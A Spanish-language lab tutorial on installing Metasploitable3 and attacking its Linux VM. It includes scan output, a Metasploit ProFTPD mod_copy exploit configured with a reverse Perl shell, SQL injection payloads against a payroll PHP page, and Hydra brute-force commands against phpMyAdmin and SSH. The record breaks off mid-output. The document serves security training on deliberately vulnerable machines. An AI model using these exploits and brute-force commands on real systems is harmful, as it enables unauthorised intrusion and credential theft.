







# Metasploit y Metasploitable3

En este apartado vamos a realizar algo similar al apartado 1, pero de una forma más compleja con herramientas desarrolladas por expertos con un nivel técnico superior. Para realizar lo que veremos a continuación necesitaremos tener una máquina que tenga `metasploit` y las máquinas vulnerables de `metasploitable`. Antes de continuar, vamos a definir lo anterior:

* `metasploit`: Es un metapaquete que contiene una gran variedad de herramientas pensadas para explotar vulnerabilidades. Esto, junto a otras herramientas como las vistas en este documento, puede ser útil para detectar y aprovechar un punto de acceso a sistemas.

* `metasploitable`: Son unas máquinas virtuales diseñadas por la misma empresa; estas máquinas contienen multitud de vulnerabilidades de forma intencionada. Para esta parte hemos usado la versión 2 y mayormente la versión 3, pues esta última son dos imágenes de vagrant, una con `Windows` y otra con `Ubuntu`. Esto es un escenario ideal para practicar con herramientas de ciberseguridad tanto para atacar como para defender.

Una vez entendido el escenario que necesitamos, vamos a dividir este documento en 3 apartados principales: el primero será la instalación del escenario metasploitable y los otros dos serán un ataque con elevación de privilegio en la máquina con `Linux` y `Windows`.

## Instalación

Las máquinas `metasploitable 3` son antiguas y están algo desactualizadas, por lo que podemos tener problemas a la hora de ejecutarlas según la guía oficial; por ese mismo motivo daré yo una guía propia. En mi caso, el `hypervisor` que voy a usar será `virtualbox`, por lo que recomiendo tenerlo instalado en nuestro sistema. Se puede descargar de su web oficial.

1. Descargamos el fichero vagrant que está en su GitHub, esto lo hacemos con el comando:
    ```bash
    curl -O https://raw.githubusercontent.com/rapid7/metasploitable3/master/Vagrantfile
    ```

2. Modificamos el fichero añadiendo la línea `config.vbguest.auto_update = false`, esto hará que no se intente actualizar los controladores `VboxGuestAdditions` dentro de las máquinas, al ser antiguas con sus propias configuraciones nos devolvería un error. El fichero debería quedar así:
    ```plaintext --title="Fichero de Vagrant"
    # -*- mode: ruby -*-
    # vi: set ft=ruby :

    Vagrant.configure("2") do |config|
    config.vbguest.auto_update = false
    config.vm.synced_folder '.', '/vagrant', disabled: true
    config.vm.define "ub1404" do |ub1404|
        ub1404.vm.box = "rapid7/metasploitable3-ub1404"
        ub1404.vm.hostname = "metasploitable3-ub1404"
        config.ssh.username = 'vagrant'
        config.ssh.password = 'vagrant'

        ub1404.vm.network "private_network", ip: '172.28.128.3'

        ub1404.vm.provider "virtualbox" do |v|
        v.name = "Metasploitable3-ub1404"
        v.memory = 2048
        end
    end

    config.vm.define "win2k8" do |win2k8|
        # Base configuration for the VM and provisioner
        win2k8.vm.box = "rapid7/metasploitable3-win2k8"
        win2k8.vm.hostname = "metasploitable3-win2k8"
        win2k8.vm.communicator = "winrm"
        win2k8.winrm.retry_limit = 60
        win2k8.winrm.retry_delay = 10

        win2k8.vm.network "private_network", type: "dhcp"

        win2k8.vm.provider "libvirt" do |v|
        v.memory = 4096
        v.cpus = 2
        v.video_type = 'qxl'
        v.input :type => "tablet", :bus => "usb"
        v.channel :type => 'unix', :target_name => 'org.qemu.guest_agent.0', :target_type => 'virtio'
        v.channel :type => 'spicevmc', :target_name => 'com.redhat.spice.0', :target_type => 'virtio'
        v.graphics_type = "spice"

        # Enable Hyper-V enlightenments: https://blog.wikichoon.com/2014/07/enabling-hyper-v-enlightenments-with-kvm.html
        v.hyperv_feature :name => 'stimer',  :state => 'on'
        v.hyperv_feature :name => 'relaxed', :state => 'on'
        v.hyperv_feature :name => 'vapic',   :state => 'on'
        v.hyperv_feature :name => 'synic',   :state => 'on'
        end

        # Configure Firewall to open up vulnerable services
        case ENV['MS3_DIFFICULTY']
        when 'easy'
            win2k8.vm.provision :shell, inline: "C:\\startup\\disable_firewall.bat"
        else
            win2k8.vm.provision :shell, inline: "C:\\startup\\enable_firewall.bat"
            win2k8.vm.provision :shell, inline: "C:\\startup\\configure_firewall.bat"
        end

        # Insecure share from the Linux machine
        win2k8.vm.provision :shell, inline: "C:\\startup\\install_share_autorun.bat"
        win2k8.vm.provision :shell, inline: "C:\\startup\\setup_linux_share.bat"
        win2k8.vm.provision :shell, inline: "rm C:\\startup\\*" # Cleanup startup scripts
    end
    end
    ```

3. Ahora descargamos los plugins necesarios para que funcione correctamente `vagrant`.
    ```bash
    vagrant plugin install vagrant-reload
    vagrant plugin install vagrant-vbguest
    vagrant plugin install vagrant-virtualbox
    ```

4. Configuramos `VirtualBox` para que acepte diferentes rangos de IP a la hora de configurar la red de estas máquinas, en caso de no hacerlo nos dará error en la ejecución de `Vagrant`. Antiguamente esto no era necesario pero con `VirtualBox 7.0` sí lo es. Esto lo hacemos creando el fichero `/etc/vbox/networks.conf` con el siguiente contenido:
    ```bash
    * 10.0.0.0/8
    * 192.168.0.0/16
    * 172.28.0.0/16
    ```
5. Ejecutamos los siguientes comandos para descargar las imágenes que vamos a usar y luego iniciarlas, al descargarlas nos ofrecerán diferentes versiones, nosotros escogeremos las de `VirtualBox`. Este proceso puede tardar un poco en ejecutarse.
    ```bash
    vagrant box add rapid7/metasploitable3-win2k8
    vagrant box add rapid7/metasploitable3-ub1404
    vagrant up --provider=virtualbox
    ```

## Metasploit con Linux

Con nuestras máquinas ya configuradas, lo que haremos será hacer uso de una tercera máquina, para este caso es ideal usar máquinas como `Kali Linux` o `Parrot OS` porque vienen preparadas con todas las herramientas que vamos a usar. Aunque esto ya es a elección de cada usuario, pues por ejemplo `Metasploit` podemos instalarlo con un script automático proporcionado en su web.

En esta ocasión, vamos a intentar en la medida de lo posible hacer uso de las herramientas que hemos usado en los puntos individuales, aunque veremos otras también, las cuales no serán explicadas al detalle porque sería como añadir otro punto más por cada una.

### Reconocimiento de las vulnerabilidades

Aquí haremos uso de la herramienta `OpenVas` que nos hará un escaneo de la IP proporcionada, en este caso la de la máquina. El escaneo nos devolverá una cantidad de información sobre las vulnerabilidades existentes. Para ello accedemos al panel web y nos vamos al apartado `scan`, aquí simplemente le damos a `task wizard`. Esto último nos abrirá un asistente donde le daremos una IP, pulsamos siguiente con las configuraciones por defecto y empezará a realizar un escaneo a esa IP, aunque es posible hacerlo a rangos o redes en el caso de no conocer la dirección IP.

Mientras se realiza el escaneo, podemos desde la terminal hacer uso de la herramienta `nmap` para realizar otro escaneo. Esta herramienta la mencionamos porque es una imprescindible en el mundo de la ciberseguridad, permite ejecutar opciones y configuraciones muy extensas, haciendo casi el mismo trabajo que herramientas como `OpenVas`. En este caso, para poner un ejemplo, ejecutaremos el comando `nmap -A 192.168.1.75`. La opción `-A` realiza un escaneo con diferentes opciones preconfiguradas, entre ellas está la detección de servicios en la máquina, detección de sistema operativo y escaneo de puertos, así como la ejecución de distintos scripts. Estos scripts son ejecutados por el motor de script `NSE` que pertenece a la herramienta, los cuales podemos añadir scripts propios o usar los que tiene ya incluidos en diferentes grupos. Para este caso, se ha ejecutado los scripts del grupo `Default`, y nos devuelve la siguiente información.

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 22:56 CEST
Nmap scan report for metasploitable3-ub1404.home (192.168.1.75)
Host is up (0.00027s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 2b:2e:1f:a4:54:26:87:76:12:26:59:58:0d:da:3b:04 (DSA)
|   2048 c9:ac:70:ef:f8:de:8b:a3:a3:44:ab:3d:32:0a:5c:6a (RSA)
|   256 c0:49:cc:18:7b:27:a4:07:0d:2a:0d:bb:42:4c:36:17 (ECDSA)
|_  256 a0:76:f3:76:f8:f0:70:4d:09:ca:e1:10:fd:a9:cc:0a (ED25519)
80/tcp   open   http        Apache httpd 2.4.7
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-10-29 19:37  chat/
| -     2011-07-27 20:17  drupal/
| 1.7K  2020-10-29 19:37  payroll_app.php
| -     2013-04-08 12:06  phpmyadmin/
|_
445/tcp  open               Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
|_http-server-header: CUPS/1.7 IPP/2.1
|_http-title: Bad Request - CUPS v1.7.2
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
|_http-title: Error 404 - Not Found
|_http-server-header: Jetty(8.1.7.v20120910)
8181/tcp closed intermapper
MAC Address: 08:00:27:42:51:79 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 3.2 - 4.9 (98%), Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (94%), Linux 4.10 (94%), Linux 3.2 - 3.16 (94%), Linux 3.13 - 3.16 (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Linux 3.10 (93%), Linux 3.2 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Hosts: 127.0.2.1, METASPLOITABLE3-UB1404; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-10-18T20:57:10
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: metasploitable3-ub1404
|   NetBIOS computer name: METASPLOITABLE3-UB1404\x00
|   Domain name: \x00
|   FQDN: metasploitable3-ub1404
|_  System time: 2023-10-18T20:57:11+00:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms metasploitable3-ub1404.home (192.168.1.75)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.52 seconds
```

Como podemos ver, el escaneo nos ha revelado bastante información, aparte de decirnos los servicios en ejecución, así como qué versión nos está dando ese servicio, como puede ser `ProFTPD 1.3.5`. Esto es bastante útil porque podemos buscar si esa versión tiene una vulnerabilidad, que en este caso sabemos que sí la tiene. Aparte, los scripts ejecutados por `nmap` nos han dado una información extendida, como un usuario encontrado para el protocolo `smb`, el cual está abierto, o el contenido del directorio principal usado por el servidor web `Apache2`. Habitualmente, esta información no es accesible, pero en este caso sí lo es al ser unas máquinas vulnerables.

Después de esta breve pausa, vamos a mirar cómo ha ido el escaneo de `OpenVas`, el cual nos muestra el siguiente resultado.



Como podemos ver, ha detectado diferentes vulnerabilidades, nos indica cuál es y la gravedad de la misma. También, si hacemos clic sobre ellas, nos dará una explicación más detallada con enlaces incluidos a webs con información sobre dichas vulnerabilidades, como podemos ver a continuación.



Ya que hemos expandido la información sobre la vulnerabilidad del servidor `ProFTPD`, vamos a hacer uso de ella para explotarla y conseguir una shell remota. A ver si podemos elevar privilegios como administrador.

### Ataque a las vulnerabilidades detectadas

En este punto, realizaremos ataques que nos hagan conseguir acceso a un usuario con privilegios de administrador en `Linux`. Para ello, vamos a ver diversos ataques hasta conseguir nuestro objetivo.

#### Parte 1: Vulnerabilidad CVE-2015-3306

Esta vulnerabilidad pertenece al servidor `ProFTPD 1.3.5` y afecta al componente llamado `mod_copy`. Este módulo permite hacer uso de comandos como `site cpfr` o `site cpto`, los cuales son para copiar desde el servidor hacia la máquina local y para copiar desde la local al servidor, respectivamente. El problema de esta vulnerabilidad era que se permitía el uso de estos comandos a cualquier usuario. Esto generaba un problema porque permitía a usuarios que no tenían permisos, porque no estaban autenticados, obtener copias de los ficheros o escribir otros nuevos en el directorio del servidor. A día de hoy ya está parcheado, pero veremos cómo realizar un ataque con `metasploit`.
Para este caso, tenemos dos vías, pues el escaneo también nos ha dicho que podemos realizar un ataque de fuerza bruta, el cual podríamos hacer con `Hydra` haciendo uso del comando:
```bash
hydra -L users.txt -P passwords.txt 192.168.1.75 ftp
```

Con ese comando empezaría un ataque de fuerza bruta hasta conseguir el acceso a un usuario haciendo uso de dos diccionarios, uno para usuarios y otro para contraseñas. El problema es que para este caso puede ser algo lento, cuando tenemos acceso a un `exploit` que nos permite acceder de forma rápida.

1. Inicializamos la base de datos de Metasploit para que almacene las contraseñas que sean encontradas así como otros datos, permitiendo ser reutilizados sin volver a tener que realizar todo el proceso:
    ```bash
    msfdb init
    msfdb start
    ```

2. Iniciamos la consola de `Metasploit` e iniciamos una búsqueda de exploits compatibles.
    ```bash
    msfconsole
    search proftpd
    ```

    

3. Como podemos ver en la imagen anterior, nos muestra los diferentes exploits que tenemos disponibles, así como su rango de efectividad. Para este caso, usaremos el número 4 que es el de `mod_copy`. Podemos pedir información del mismo con el comando `info 4` ya que estamos en modo interactivo. Esto nos devolverá la siguiente información:
    ```bash
    Name: ProFTPD 1.3.5 Mod_Copy Command Execution
        Module: exploit/unix/ftp/proftpd_modcopy_exec
    Platform: Unix
        Arch: cmd
    Privileged: No
        License: Metasploit Framework License (BSD)
        Rank: Excellent
    Disclosed: 2015-04-22

    Provided by:
    Vadim Melihow
    xistence <xistence@0x90.nl>

    Module side effects:
    artifacts-on-disk
    ioc-in-logs

    Module stability:
    crash-safe

    Module reliability:
    repeatable-session

    Available targets:
        Id  Name
        --  ----
    =>  0   ProFTPD 1.3.5

    Check supported:
    Yes

    Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                            tml
    RPORT      80               yes       HTTP port (TCP)
    RPORT_FTP  21               yes       FTP port
    SITEPATH   /var/www         yes       Absolute writable website path
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI  /                yes       Base path to the website
    TMPPATH    /tmp             yes       Absolute writable path
    VHOST                       no        HTTP server virtual host

    Payload information:
    Avoid: 0 characters

    Description:
    This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
    Any unauthenticated client can leverage these commands to copy files from any
    part of the filesystem to a chosen destination. The copy commands are executed with
    the rights of the ProFTPD service, which by default runs under the privileges of the
    'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
    directory, PHP remote code execution is made possible.

    References:
    https://nvd.nist.gov/vuln/detail/CVE-2015-3306
    https://www.exploit-db.com/exploits/36742
    http://bugs.proftpd.org/show_bug.cgi?id=4169


    View the full module info with the info -d command.
    ```

4. Ahora usamos dicho exploit con el comando `use 4` ya que estamos en modo interactivo; si no tendríamos que poner la ruta completa `use exploit/ftp/proftpd/ftp_modcopy_exec`. Una vez escogido, configuraremos los siguientes parámetros:``
    ```bash
    set rhost 192.168.1.75 # IP del objetivo remoto
    set lhost 192.168.1.79 # IP de la local
    set payload cmd/unix/reverse_perl # Payload que vamos a usar
    set sitepath /var/www/html # Ruta a la que tiene acceso el servidor ftp
    run
    ```
5. Antes de continuar, podemos consultar los parámetros del exploit con el comando `show options`, eso nos mostrará las variables configuradas como las del punto anterior y otras opcionales así como sus descripciones. Una vez ejecutado, podemos ver en la siguiente imagen que estamos dentro del directorio del servidor web. El problema es que tenemos el usuario `www-data` que no tiene permisos para nada que esté fuera de dicho directorio. Al menos podemos ver el contenido de los ficheros porque tienen permisos `755`.



6. También podemos hacer uso del hecho de tener permisos para subir ficheros, y así subir un fichero con código que podamos ejecutar. De hecho, el mismo exploit sube un fichero PHP que ejecuta para darnos acceso y se borra automáticamente.``

#### Parte 2: Análisis y detección de nueva vulnerabilidad

Con la vulnerabilidad anterior no fue posible obtener un usuario con privilegios de administrador, pues el usuario `www-data` no tiene esos permisos. Pero analizando el fichero `payroll_app.php`, hemos visto su código, el cual es una aplicación en PHP que, haciendo uso de un formulario, obtiene de la base de datos un registro de los salarios pagados de cada usuario. El código de la aplicación es:
```php
<?php

$conn = new mysqli('127.0.0.1', 'root', 'sploitme', 'payroll');
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
?>

<?php
if (!isset($_POST['s'])) {
?>
<center>
<form action="" method="post">
<h2>Payroll Login</h2>
<table style="border-radius: 25px; border: 2px solid black; padding: 20px;">
    <tr>
        <td>User</td>
        <td><input type="text" name="user"></td>
    </tr>
    <tr>
        <td>Password</td>
        <td><input type="password" name="password"></td>
    </tr>
    <tr>
       <td><input type="submit" value="OK" name="s">
    </tr>
</table>
</form>
</center>
<?php
}
?>

<?php
if($_POST['s']){
    $user = $_POST['user'];
    $pass = $_POST['password'];
    $sql = "select username, first_name, last_name, salary from users where username = '$user' and password = '$pass'";

    if ($conn->multi_query($sql)) {
        do {
            /* store first result set */
            echo "<center>";
            echo "<h2>Welcome, " . $user . "</h2><br>";
            echo "<table style='border-radius: 25px; border: 2px solid black;' cellspacing=30>";
            echo "<tr><th>Username</th><th>First Name</th><th>Last Name</th><th>Salary</th></tr>";
            if ($result = $conn->store_result()) {
                while ($row = $result->fetch_assoc()) {
                    $keys = array_keys($row);
                    echo "<tr>";
                    foreach ($keys as $key) {
                        echo "<td>" . $row[$key] . "</td>";
                    }
                    echo "</tr>\n";
                }
                $result->free();
            }
            if (!$conn->more_results()) {
                echo "</table></center>";
            }
        } while ($conn->next_result());
    }
}
?>
```

En este fichero podemos ver varios fallos, el primero y más grave es que tiene los datos de acceso a la base de datos como usuario root en la línea:
```php
$conn = new mysqli('127.0.0.1', 'root', 'sploitme', 'payroll');
```

Esto nos permitiría acceder a la base de datos y leer cualquier dato almacenado, pero para darle algo más de emoción a la tarea, vamos a simular que no tenemos esos datos porque estaban en un fichero diferente al que no teníamos acceso de lectura. El segundo fallo lo podemos ver en la línea:
```php
$sql = "select username, first_name, last_name, salary from users where username = '$user' and password = '$pass'";
```

Esta línea está haciendo una consulta a la base de datos, pero sin realizar un escape de caracteres para evitar que un atacante ejecute caracteres especiales. Podríamos escribir para el recuadro usuario que está asociado a la variable `$user` el valor `' OR '1'='1'; --` o `'OR 1=1#`. Al no escapar caracteres, los caracteres con funcionamientos especiales no son ignorados, por lo tanto la consulta generaría una condición verdadera para la variable `$user` e ignoraría el resto de la consulta porque `--/#` son caracteres para comentar en `SQL`. A continuación, vemos un ejemplo de cómo sería una hipotética consulta.
```sql
-- Consulta original
select * from users where username = '$user' and password = '$pass';
-- Consulta modificada por la inyección
SELECT * FROM users WHERE username = '' OR '1'='1'; --' AND password = '$pass';
```

En el ejemplo anterior podemos ver un poco cómo funcionaría, al haber inyectado en la variable caracteres especiales me ha permitido generar una condición verdadera e ignorar el resto del `where` porque se convirtió en un comentario, por lo que es ignorado por `SQL`.

* Ejecutamos la inyección `'OR1=1#` y vemos cómo nos devuelve una lista de usuarios con nombre de personajes de Star Wars. Esto es muy importante porque los usuarios suelen usar las mismas contraseñas para varios servicios; intentaremos obtener esas contraseñas. A continuación, la imagen:



Una vez explicado esto, procederemos a realizar un ataque aprovechando esta vulnerabilidad para obtener privilegios de administrador.

#### Parte 3: Aprovechando la nueva vulnerabilidad

Este punto es la última parte del ataque donde conseguiremos acceso al administrador del sistema.

1. Atacamos por fuerza bruta el login de phpmyadmin con el comando que dejaré a continuación. Este comando hace uso de la herramienta `hydra` con un diccionario de usuarios y otro de contraseñas. También indicaremos que se ataque el formulario tipo `POST` del panel `phpmyadmin`. Para ello se hará mención a las variables del formulario `pma_username` y `pma_password`, así como el mensaje de error "1045" que es el que devuelve la web cuando hacemos un login incorrecto. Con esto, `hydra` seguirá intentándolo hasta que no vea dicho mensaje.
    ```bash
    hydra -L /usr/share/wordlists/metasploit/root_userpass.txt -P /usr/share/wordlists/metasploit/password.lst 192.168.1.75 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server"
    ```

2. El punto anterior nos devolverá una contraseña que será la que hemos visto en el fichero de `payroll_app.php`. Ahora solo tenemos que hacer login con el usuario `root` y la contraseña `sploitme`. A continuación, veremos el login hecho.


3. Nos movemos por el panel web hasta la base de datos `payroll` y la tabla `users`. En esta tabla podemos ver una lista de los usuarios y contraseñas de dichos usuarios.


4. Añadimos esos nombres y contraseñas a nuestras lista de usuarios y passwords. Esto ahora lo usaremos con otra vulnerabilidad detectada por `OpenVas`, la cual nos indicaba que el servidor `SSH` es vulnerable a ataques por fuerza bruta. A continuación, veremos el comando así como la salida del mismo.
    ```bash
    hydra -L /home/seguridad2324/users.txt -P /home/seguridad2324/password.txt 192.168.1.75 ssh
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 11:20:47
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 225 login tries (l:15/p:15), ~15 tries per task
    [DATA] attacking ssh://192.168.1.75:22/
    [22][ssh] host: 192.168.1.75   login: leia_organa   password: help_me_obiwan
